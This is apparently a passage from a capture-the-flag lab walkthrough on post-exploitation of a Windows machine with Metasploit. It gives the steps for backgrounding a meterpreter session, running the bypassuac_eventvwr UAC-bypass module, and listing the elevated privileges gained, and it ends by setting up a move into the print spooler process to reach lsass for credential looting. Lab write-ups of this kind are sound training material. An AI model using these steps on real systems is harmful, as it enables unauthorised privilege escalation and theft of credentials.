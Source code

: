  > The full path of the first returned exploit *that includes the term eventvwr* is **exploit/windows/local/bypassuac_eventvwr**

 - *Ctrl + z* to background meterpreter shell
 - <code>use exploit/windows/local/bypassuac_eventvwr</code> will switch us into the bypassuac_eventvwr module
    - Use <code>show options</code> to display options for the module and <code>set SESSION \<session number></code> to select the session you just backgrounded
    - <code>set LHOST</code> to attack machine IP
    - Use <code>run</code> or <code>exploit</code> to start

### We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

<code>getprivs</code> returns:

```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

> The **SeTakeOwnershipPrivilege** allows us to take ownership of files

## Looting

### In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?
